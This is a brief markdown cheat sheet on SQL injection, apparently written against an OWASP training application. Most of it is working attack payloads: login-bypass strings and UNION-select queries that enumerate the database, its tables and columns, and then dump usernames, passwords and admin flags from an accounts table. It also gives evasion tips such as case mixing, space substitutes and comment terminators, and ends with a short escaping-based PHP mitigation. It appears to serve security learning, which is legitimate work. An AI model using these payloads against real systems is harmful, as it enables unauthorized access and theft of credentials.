 # SQL Injection

## Exploit
- Login
  - username: ```admin'#``` 
  - password: ```1' or 1=1#``` 
- Data Extracting 
  - ```?page=user-info.php&username=z' union select 1,database(),user(),version(),5%23``` 
  - ```?page=user-info.php&username=z' union select 1,table_name,null,null,5 from information_schema.tables``` 
  - ```?page=user-info.php&username=z' union select 1,table_name,null,null,5 from information_schema.tables where table_schema='owasp10'``` 
  - ```?page=user-info.php&username=z' union select 1,column_name,null,null,5 from information_schema.columns where table_name='accounts'``` 
  - ```?page=user-info.php&username=z' union select 1,username,password,is_admin,5 from accounts``` 
- Tips
  - TRUE statements
    - ```aNd 1=1``` & ```aNd 21=21``` & ```orDeR bY 1``` 
  - FALSE statements
    - ```dNd 0=1``` & ```anD 9=2``` & ```ordEr bY 1000000000000```   
  - Spaces
    - ```+``` & ```/**/``` & ```%20``` 
    - ```orDeR bY 1 can be re-written as``` => ```orDer+bY+1``` or ```orDer/**/bY/**/1``` or ```orDer%20bY%201```
  - Comments to end the quries
    - ```/*``` & ```//``` & ```#``` & ```%23```
    - Sometimes you might need to add ';' before the comment
      - ```anD 1=1//``` => ```anD 1=1;//```

## Mitigation
- Secure Code for login in PHP
```PHP
$query = "SELECT * FROM accounts WHERE username='".
$conn->real_escape_string($username).
"'AND password='".
$conn->real_escape_string($password).
"'"
```
